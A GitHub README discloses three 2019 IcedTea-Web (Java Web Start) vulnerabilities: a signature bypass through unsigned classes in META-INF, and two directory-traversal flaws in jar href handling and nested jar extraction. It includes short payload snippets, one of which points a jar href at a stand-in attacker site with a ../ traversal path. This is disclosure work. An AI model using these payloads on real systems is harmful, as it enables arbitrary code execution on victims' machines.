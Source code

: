 # icedtea-web-vulnerabilities
Hosting proof of concept exploit code of the remote code execution vulnerabilities in the IcedTea-Web Java webstart implementation.

## IcedTea-Web
IcedTeaWeb is an open source implementation of JSR-56 that is better known as Java Web Start. 
It is currently maintained by RedHat and is included into the Windows packages of OpenJDK by default.

Three security issues were found in ITW, and have been discussed and are going to be fixed.
Those are CVE-2019-10185 CVE-2019-10181 CVE-2019-10182

The vulnerabilities described below could be exploited by man in the middle attackers or parties 
having write permission on where the packages were hosted.

The affected versions are 1.7.2 and below, 1.8.2 and below. 1.6 is also vulnerable and not patched 
due to being EOL.

Some additional info and PoC files can be found here:
https://github.com/irsl/icedtea-web-vulnerabilities


## CVE-2019-10181
In line with the requirements, IcedTea-Web forces presence of signatures on 
webstart projects by default.

However, the implementation considers jar archives fully signed even when
unsigned class files are residing in the META-INF folder. An MitM
attacker could inject extra code to the jar archive and get it invoked
by specifying it via the main-class attribute of application-desc:

```
<application-desc main-class="META-INF.Test" />
```

The dash is not among the allowed characters in Java identifiers, so
this cannot be produced via a legit compiler, but the bytecode
verifier accepts crafted class files with dash in the package name
happyly.

The code would be executed in the Java sandbox.


## CVE-2019-10182
Processing of the href attribute of the jar node was vulnerable to directory 
traversal.

```
<jar href="http://attacker-controlled-site/../../../../../XXX.any" version="2.0"/>
```

Considering the line above, the file XXX.any is saved out of the cache
directory, overwriting the destination if it already exists. This is
effectively an (over)write-what-where primitive on the filesystem,
which could be used to execute arbitrary code (eg. via placing a batch
file in the startup folder).

This was exploitable on Windows, where the operating system normalizes
the paths before traversing them.


## CVE-2019-10185
IcedTea-Web features extracting nested jar files from the primary ones.

The nested jar auto-extraction feature is vulnerable to directory
traversal. Combining this with vuln 2 and crafting jar files with
META-INF/../../../whatever.jar pattern in their zip entries, they
don't need to be signed and are followed and extracted outside of the
cache directory.

By abusing the nested jar extraction feature it was also possible to 
overwrite the main jar itself, so later on when it was actually executed, 
the framework launched external, unsigned arbitrary code with full privileges.


## Links
https://github.com/AdoptOpenJDK/IcedTea-Web
https://icedtea.classpath.org/wiki/IcedTea-Web
https://github.com/AdoptOpenJDK/IcedTea-Web/issues/327
https://access.redhat.com/errata/RHSA-2019:2003
